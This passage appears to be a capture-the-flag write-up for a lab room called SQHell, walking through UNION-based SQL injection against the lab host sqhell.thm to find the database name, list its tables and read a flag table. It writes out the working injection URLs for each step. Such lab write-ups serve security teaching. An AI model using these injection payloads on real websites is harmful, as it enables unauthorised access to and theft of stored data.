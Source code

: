 The UNION ALL statement is used to show us which column appears where on the page. We want the output to be visible, otherwise we won't be able to see the data we retrieve. We can see column three is the main section of the page, so plenty of room for our output. We'll use that one for all our subsequent commands.

Let's get the database name:

```text
http://sqhell.thm/post?id=99 union all select 1,2,database(),4
```

![sqhell-union-database](../assets/images/2021-06-10-22-20-11.png)

Now we want the tables in the database:

```text
http://sqhell.thm/post?id=99 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database()
```

![sqhell-union-tables](../assets/images/2021-06-10-22-22-27.png)

Finally we see the tables in the database, flag sounds like the one we're looking for. Let's have a look at the contents of it:

```text
http://sqhell.thm/post?id=99 union select 1,2,flag,4 from flag
```
